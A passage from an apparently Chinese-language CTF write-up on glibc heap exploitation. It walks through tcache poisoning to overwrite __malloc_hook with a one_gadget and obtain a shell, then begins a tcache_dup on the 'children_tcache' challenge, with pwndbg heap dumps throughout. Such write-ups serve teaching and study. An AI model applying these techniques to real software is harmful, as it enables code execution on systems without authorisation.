 程序逻辑十分清晰，一共七次机会进行new、free、write的操作来getshell，由于除了次数没有任何限制，所以我们能很直接的体会到tcache机制所带来的安全方面问题，我们先做个标准的tcache_poisoning起手式，先放一个堆块到tcache_entry

```bash
pwndbg> heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x556b70596270 (size : 0x20d90)
       last_remainder: 0x0 (size : 0x0)
            unsortbin: 0x0
(0x20)   tcache_entry[0]: 0x556b70596260
```

接着我们通过write操作去修改一下tcache_next为&malloc_hook

```bash
pwndbg> heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x556b70596270 (size : 0x20d90)
       last_remainder: 0x0 (size : 0x0)
            unsortbin: 0x0
(0x20)   tcache_entry[0]: 0x556b70596260 --> 0x7f2d9da10c10 (&__malloc_hook)
```

接着new两次把tcache从取出并把malloc_hook修改成one_gadget后new一个新chunk触发malloc_hook就可以getshell了，很简单又直接的题目吧。

我们回到children_tcache，先做个tcache_dup，也就是对我们之前插在两个unsort_bin中间的chunk进行两次free

```bash
pwndbg> parseheap
addr                prev                size                 status              fd                bk
0x564f27df9000      0x0                 0x250                Used                None              None
0x564f27df9250      0x0                 0x510                Used                None              None
0x564f27df9760      0x510               0x30                 Used                None              None
0x564f27df9790      0xdadadadadadadada  0x4f0                Freed     0x7fa26b599c78    0x7fa26b599c78
0x564f27df9c80      0x4f0               0x20                 Used                None              None
pwndbg> heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
```